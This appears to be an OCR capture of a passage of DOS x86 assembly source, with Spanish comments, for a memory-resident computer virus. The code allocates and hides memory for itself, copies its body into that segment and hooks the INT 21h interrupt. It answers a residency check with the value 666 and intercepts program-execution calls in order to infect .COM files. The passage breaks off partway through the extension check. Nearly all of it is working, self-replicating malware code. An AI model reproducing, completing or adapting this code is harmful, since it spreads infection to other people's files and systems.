     mov bx, (ALLOC_SIZE + 15) / 16                   ; | BX = la memoria que requiere el virus, en párrafos
    int 21h                                          ; |_DOS API - Asignar memoria

    dec ax
    mov es, ax                                       ; ES = MCB del segmento viral
    mov byte ptr es:[0000], 'Z'                      ; marcar como fin de la cadena de bloques
    mov word ptr es:[0001], 0008                     ; establecer DOS como dueño del bloque

    lea si, [bp + body]                              ; origen: inicio del código viral en archivo
    inc ax
    mov es, ax                                       ; ES = segmento viral
    mov di, 0                                        ; destino: inicio del código en segmento viral
    mov cx, VIRUS_SIZE                               ; tamaño del virus
    rep movsb                                        ; copiar virus de origen a destino

    mov ds, ax                                       ; DS = segmento viral                         
    mov ah, 35h                                      ; | AH = 35h
    mov al, 21h                                      ; | AL = número de interrupción, 21h
    int 21h                                          ; |_DOS API - Obtener vector en ES:BX

    mov ds:[V_OFFSET + vector_int21], bx             ; guardar vector original de INT 21h
    mov ds:[V_OFFSET + vector_int21 + 2], es
    mov ah, 25h                                      ; | AH = 25h
    mov al, 21h                                      ; | AL = número de interrupción, 21h
    mov dx, V_OFFSET + offset handler_int21h         ; | DS:DX -> dirección del nuevo handler: handler_int21h
    int 21h                                          ; |_DOS API - Cambiar vector                                   

run_host:    
    mov ax, cs
    mov ds, ax                                       ; restaurar DS
    mov es, ax                                       ; restaurar ES
    mov cx, 4
    lea si, [bp + host_head]
    mov di, 100h
    rep movsb                                        ; restaurar cabezal original
    mov ax, 100h
    jmp ax                                           ; saltar a CS:100 y ejecutar huésped  

handler_int21h:    
    cmp ax, 0ABCDh                                   ; llamada de reconocimiento del virus:
    je service_ABCD                                  ;   responder y retornar
    cmp ax, 4B00h                                    ; llamada para ejecutar archivo:
    je infect_file                                   ;   infectar y delegar
    jmp handler_old                                  ; en otro caso, delegar al handler original de INT 21h 

service_ABCD:    
    mov ax, 029Ah                                    ; código de respuesta: 666 (29Ah)
    iret                                             ; retornar de la interrupción

infect_file:    
    pushf                                            ; guardar estado CPU
    push ax                                          ; guardar registros que serán utilizados
    push bx
    push cx
    push dx
    push si
    push ds
                                                     ; por la llamada AX=4B00h, DS:DX apunta al nombre del archivo
    mov si, dx                                       ; verificar que sea extensión ".COM"

loop_str:    
    lodsb
    or al, al
    jz check_fail
    cmp al, '.'